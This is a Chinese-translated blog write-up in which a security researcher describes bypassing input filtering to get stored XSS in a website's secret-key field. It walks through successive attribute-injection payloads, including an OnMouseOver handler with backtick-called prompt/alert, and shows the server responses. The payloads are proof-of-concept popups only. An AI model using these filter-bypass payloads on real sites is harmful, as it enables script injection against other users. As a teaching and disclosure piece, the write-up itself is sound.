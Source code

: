 # 一个存储的 XSS 旁路的故事

> 原文：<https://infosecwriteups.com/story-of-a-stored-xss-bypass-26e6659f807b?source=collection_archive---------0----------------------->

嗨，读者们，

我是来自孟加拉国的网络安全研究员。这是我第一次写文章，我也不擅长 XSS，所以原谅所有的错误。

最近我测试了一个私人网站，用户可以在里面添加他们的个人信息。我注意到那里有一个名为 **Secret Key** 的输入，它允许用户处理支付并将交易信息存储到应用程序中。

所以我输入一个正常的有效载荷:-

> ”>![](x)

它被过滤了，页面来源是这样的:-

```
<input type="text" id="****" name="****" value="">&lt;img img" class="form-control" rel="gp" data-size="20" data-character-set="a-z,A-Z,0-9">
```

所以从源头上我了解到:-

> 1.**")**和**大于号(> )** 未被正确过滤。
> 
> 2.恶意标签正在被过滤。为此 **< img >** 变成了 **img img**

所以我有两种可能方法来执行 JavaScript。**第一个**不知何故绕过了**小于(< )** 过滤器，第**第二个**添加了一个恶意的 **HTML 属性**来执行 JavaScript。我尝试了很多方法来绕过**小于(< )** 字符，但就是做不到。所以我用第二种方法添加了一个恶意的 **HTML 属性**。所以我输入了下面的有效载荷:-

> " OnMouseOver=prompt(1)

**回应为:-**

```
<input type="text" id="****" name="****" value="" OnMouseOver=prompt&#40;" class="form-control" rel="gp" data-size="20" data-character-set="a-z,A-Z,0-9">
```

所以我可以添加一个 HTML 属性，但是括号被正确过滤了。所以我输入了下面的有效载荷:-

> " OnMouseOver = prompt` 1

**回应为:-**

```
<input type="text" id="****" name="****" value="" OnMouseOver=prompt`1`" class="form-control" rel="gp" data-size="20" data-character-set="a-z,A-Z,0-9">
```

但是代码没有执行。仔细看看，有效载荷只需要一个**🤔🤔🤔 :-**

> **" OnMouseOver = " prompt` 1**

****回应为:-****

```
<input type="text" id="ipn_secret_keygen" name="ipn_secret_keygen" value=""OnMouseOver="alert`1`" class="form-control" rel="gp" data-size="20" data-character-set="a-z,A-Z,0-9">
```

**看起来不错。现在我把鼠标指针放在输入上，而 **OnMouseOver** 事件执行了 XSS 弹出窗口🤩🤩🤩**

**![](img/8971d85a19b9a727c35fc6bc1d8f4c17.png)**

**XSS 被处决了。**

**感谢阅读。希望有时间再写一些帖子。**

**在脸书上找到我:-**

**[](http://facebook.com/prial261) [## 普里阿勒·伊斯兰·汗

### Prial Islam Khan 在脸书。加入脸书，与 Prial Islam Khan 和您可能认识的其他人联系。脸书给…

facebook.com](http://facebook.com/prial261)**